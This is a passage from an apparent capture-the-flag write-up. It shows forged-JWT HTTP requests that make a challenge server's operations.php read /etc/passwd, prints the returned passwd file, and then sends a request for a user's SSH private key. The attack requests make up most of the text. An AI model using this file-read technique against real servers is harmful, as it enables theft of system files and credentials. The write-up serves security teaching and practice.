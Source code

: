 ```http
POST /operations.php HTTP/1.1
Host: alpha.tenable-ctf.io:5678
Content-Length: 163
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJ0aW1lIjoxNjU1MjA0OTA2fQ.vKEE53_7WGis9-8qU0tWP8dhFen5L9DPvCo1T9Dwabo
Connection: close

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJvcGVyYXRpb24iOiJyZWFkbG9nIiwibG9nIjoiL2V0Yy9wYXNzd2QiLCJ0aW1lIjoxNjM5NTgxNjY5fQ.4gJdZF4aY1zbpbKNpja2XXEUd30BgEctWbm-pImSYIo
```

```http
HTTP/1.1 200 OK
Date: Tue, 14 Jun 2022 11:25:33 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 970
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
operations:x:1000:1000::/home/operations:/bin/sh
```

This works, and shows us there is an `operations` user on the system. We can try and read their ssh key by generating a JWT that requests the file `/home/operations/.ssh/id_rsa`.

```http
POST /operations.php HTTP/1.1
Host: alpha.tenable-ctf.io:5678
Content-Length: 185
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJ0aW1lIjoxNjU1MjA0OTA2fQ.vKEE53_7WGis9-8qU0tWP8dhFen5L9DPvCo1T9Dwabo
Connection: close

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJvcGVyYXRpb24iOiJyZWFkbG9nIiwibG9nIjoiL2hvbWUvb3BlcmF0aW9ucy8uc3NoL2lkX3JzYSIsInRpbWUiOjE2Mzk1ODE2Njl9.m1VrNoGKsrnIVKXg4qXL_iGgTtHbtQaNeypnDbNlPWA
```
